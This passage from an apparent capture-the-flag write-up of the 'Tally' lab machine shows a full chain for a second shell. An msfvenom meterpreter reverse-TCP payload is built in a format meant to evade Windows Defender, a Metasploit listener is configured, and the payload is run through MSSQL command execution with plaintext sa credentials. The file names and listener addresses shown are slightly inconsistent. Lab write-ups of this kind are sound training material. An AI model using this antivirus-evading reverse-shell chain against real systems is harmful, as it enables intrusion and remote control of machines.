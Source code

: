 Another easiest way to get a shell on this machine, would be using a metasploit auxiliary.

## Getting shell #2

## Evading Windows Defender with Metasploit

Let’s make a meterpreter payload using msfvenom. If we use the psh-reflection format our payload evade the antivirus detection:

```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Tally]─[root@Arthorias]─[0]─[3508]
╰─[:)] # msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=6969 -f psh-reflection -o Malware2.ps1
```

We configure our listener using *exploit/multi/handler*:

```bash
msf5> use exploit/multi/handler
msf5 exploit(handler) > options

Module options (exploit/multi/handler):

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.7       yes       The listen address
   LPORT     6969             yes       The listen port

msf exploit(handler) > exploit
[*] Started reverse TCP handler on 127.0.0.1:6969
```

Now, upload **Malware2.ps1** to /Intranet via FTP.  
We can execute our payload via MSSQL as previously indicated:

```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Tally]─[root@Arthorias]─[0]─[3508]
╰─[:)] # msfconsole
msf5> use  auxiliary/admin/mssql/mssql_exec
msf5 auxiliary(mssql_exec) > set CMD "powershell -ExecutionPolicy bypass -NoExit -File C:\\FTP\\Intranet\\Malware2.ps1"
msf5 auxiliary(mssql_exec) > info

Basic options:
  Name             Current Setting
  ----             ---------------
  CMD              powershell -ExecutionPolicy bypass -NoExit -File C:\FTP\Intranet\msf.ps1
  PASSWORD         GWE3V65#6KFH93@4GWTG2G
  RHOST            10.10.10.59
  RPORT            1433
  TDSENCRYPTION    false
  USERNAME         sa
  USE_WINDOWS_AUTH false

msf5 auxiliary(mssql_exec) > exploit
```
